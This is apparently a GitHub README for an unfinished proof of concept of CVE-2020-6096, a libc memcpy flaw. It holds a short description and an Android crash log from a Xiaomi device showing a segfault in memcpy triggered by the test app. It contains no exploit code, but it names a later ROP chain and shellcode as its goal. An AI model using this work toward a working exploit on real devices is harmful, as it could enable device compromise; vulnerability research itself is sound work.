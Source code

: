 # cve2020-6096
 CVE 2020-6096 PoC - memcpy+168 still needed to build the RoP + shellcode

2020-06-11 18:24:03.661 3569-3569/com.kasha.cve2020_6096 I/exploit: before memcpy
    --------- beginning of crash
2020-06-11 18:24:03.667 3569-3569/com.kasha.cve2020_6096 A/libc: Fatal signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0xbeda5000 in tid 3569 (kasha.cve2020_6096), pid 3569 (kasha.cve2020_6096)
2020-06-11 18:24:03.796 3596-3596/? I/crash_dump32: obtaining output fd from tombstoned, type: kDebuggerdTombstone
2020-06-11 18:24:03.801 655-655/? I//system/bin/tombstoned: received crash request for pid 3569
2020-06-11 18:24:03.803 3596-3596/? I/crash_dump32: performing dump of process 3569 (target tid = 3569)
2020-06-11 18:24:03.840 3596-3596/? A/DEBUG: *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG: Build fingerprint: 'Xiaomi/baiji_sw/baiji:9/PXD7.200315.001.XM067/PXD7.200315.001.XM067:user/release-keys'
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG: Revision: '0'
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG: ABI: 'arm'
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG: pid: 3569, tid: 3569, name: kasha.cve2020_6096  >>> framework/wear-service.jar <<<
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG: signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0xbeda5000
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG:     r0  beda4bf0  r1  beda4ff0  r2  ffffb66b  r3  0000000c
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG:     r4  ae80c140  r5  00000001  r6  00000000  r7  beda0d88
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG:     r8  00000000  r9  b4c36000  r10 00000000  r11 beda0e8c
2020-06-11 18:24:03.841 3596-3596/? A/DEBUG:     ip  80000000  sp  beda0560  lr  9a2e2277  pc  b1b2cf30
2020-06-11 18:24:03.843 3596-3596/? A/DEBUG: backtrace:
2020-06-11 18:24:03.843 3596-3596/? A/DEBUG:     #00 pc 00019f30  /system/lib/libc.so (memcpy+168)
2020-06-11 18:24:03.843 3596-3596/? A/DEBUG:     #01 pc 00008273  /data/app/com.kasha.cve2020_6096-kfUxk3DHgl4VQuPaayxvpw==/base.apk (offset 0x1000) (do_memcpy()+78)
2020-06-11 18:24:03.843 3596-3596/? A/DEBUG:     #02 pc 00000001  <unknown>
2020-06-11 18:24:05.758 655-655/? E//system/bin/tombstoned: Tombstone written to: /data/tombstones/tombstone_04
2020-06-11 18:24:05.813 1645-1664/? I/BootReceiver: Copying /data/tombstones/tombstone_04 to DropBox (SYSTEM_TOMBSTONE)
2020-06-11 18:24:05.829 440-440/? I/Zygote: Process 3569 exited due to signal (11)
2020-06-11 18:24:05.834 1645-3599/? W/ActivityManager:   Force finishing activity com.kasha.cve2020_6096/.MainActivity
